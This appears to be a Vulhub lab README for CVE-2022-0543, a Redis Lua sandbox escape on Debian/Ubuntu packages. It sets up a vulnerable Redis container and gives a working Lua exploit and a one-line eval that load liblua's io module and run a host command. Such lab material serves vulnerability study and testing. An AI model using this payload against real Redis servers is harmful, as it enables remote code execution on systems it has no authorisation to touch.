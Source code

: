 # Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

[中文版本(Chinese version)](README.zh-cn.md)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu:

```
docker-compose up -d
```

After server is started, you can connect to this server without credentials by `redis-cli`:

```
redis-cli -h your-ip
```

## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality.

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:

![](1.png)
